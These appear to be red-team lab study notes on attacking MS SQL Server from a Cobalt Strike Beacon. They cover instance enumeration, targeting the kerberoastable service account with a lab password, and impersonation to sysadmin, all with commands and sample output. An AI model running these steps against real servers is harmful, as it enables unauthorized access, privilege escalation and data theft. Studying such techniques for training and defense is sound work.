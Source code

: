 # MS SQL Servers

Microsoft SQL Server is a relational DBMS commonly found in Windows, used to store information to support many business functions. In addition to the obvious data theft opportunities, MSSQL has a large attack surface allowing code execution, privilege escalation, lateral movement, and persistence.

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and [SQLRecon](https://github.com/skahwah/SQLRecon) are good for enumerating and interacting with MS SQL.

PowerUpSQL can find MSSQL using Get-SQLInstanceDomain, Get-SQLInstanceBroadcast and Get-SQLInstanceScanUDP:

* Get-SQLInstanceDomain searches for SPNs that begin with MSSQL*. Can also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group).

      beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
      beacon> powershell Get-SQLInstanceDomain

* Get-SQLConnectionTest can be used to test whether we can connect to the database:

      beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl

* Get-SQLServerInfo to gather more information about the instance:

      beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"

If multiple SQL Servers exist, chain these commands together to automate the data collection:

    beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

SQLRecon can also enumerate servers via SPNs and fetch information about the instance with the ```info``` module.

    beacon> execute-assembly SQLRecon.exe /enum:sqlspns
    beacon> execute-assembly SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info

The /auth:wintoken option uses the access token of the Beacon. The example output shows that while the database is accessible, the current user is not a sysadmin. SQLRecon has a nice module which can show us what roles we do have:

    beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

On a default installation, standard users do not have the "public" role by default and must be explicitly granted through SQL Server Manager Studio (SSMS). The SQL information cannot be enumerated if the user's security context does not have a valid role. Finding a user (or group) that does have access can be challenging. Look for appropriately named domain groups and their members:

    beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }

Another option is to go after the MS SQL service account itself (often given sysadmin). The basis of BloodHound's SQLAdmin attack path. The domain account used to run the service is DEV\mssql_svc and the account is kerberoastable owing to its SPN.  If we can crack its plaintext password, we can use it to gain access to the SQL instance. The credentials can be used with make_token in Beacon and /a:WinToken in SQLRecon or the /a:WinDomain option with /d:<domain> /u:<username> /p:<password> in SQLRecon directly:

    beacon> execute-assembly SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

With access several options exist for issuing queries against a SQL instance.

* Get-SQLQuery from PowerUpSQL:

      beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

* SQLRecon:

      beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"

* mssqlclient.py from Impacket via proxychains:

      ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
      SQL> select @@servername;

* [HeidiSQL](https://www.heidisql.com) via Proxifier (a GUI tool)

## MS SQL Impersonation

MS SQL impersonation/context switching allows an executing user to use the permissions of another user without authenticating (must be explicitly granted through securable configurations: Login properties > Impersonate permission; Domain Users impersonating the DEV\mssql_svc account is a security issue since it elevates all Domain Users to sysadmin). Discover accounts to impersonate manually using the following queries:

      SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';

The IDs returned don't mean much, so look them up with:

      SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;

Or write a SQL query joins these two, or use SQLRecon's impersonate module:

      beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
      
Take advantage of this as bfarmer, who we know is not a sysadmin:

      > SELECT SYSTEM_USER;
      DEV\bfarmer
      > SELECT IS_SRVROLEMEMBER('sysadmin');
      0

Use EXECUTE AS to execute a query in the context of the target:

      > EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
      DEV\mssql_svc
      > EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
      1

SQLRecon modules can also impersonate by prefixing the module name with an i and specifying the principal to impersonate:

      beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc


      
